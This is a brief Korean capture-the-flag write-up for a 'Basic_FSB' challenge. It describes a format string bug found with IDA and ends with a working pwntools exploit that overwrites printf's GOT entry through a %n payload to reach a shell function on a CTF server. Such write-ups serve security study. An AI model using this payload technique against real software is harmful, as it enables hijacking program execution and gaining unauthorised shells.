



# Basic_FSB

   
IDA로 분석해보면 vuln 함수를 보면 FSB 취약점이 존재한다.   
<br/>

   
또한 shell을 획득할 수 있는 flag 함수도 존재한다.   
<br/>

   
간단한 FSB를 발생시켜보면 2번째 %x에서 첫 번째 인자 AAAA를 참조하는 것을 알 수 있다.   
이를 참고해서 exploit 코드를 작성하면된다.
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3002)
e = ELF('./basic_fsb')

print_got = e.got['printf']

payload = ''
payload += p32(print_got)
payload += "%134514096x%n"

p.recvuntil('input : ')
p.send(payload)
p.interactive()

```
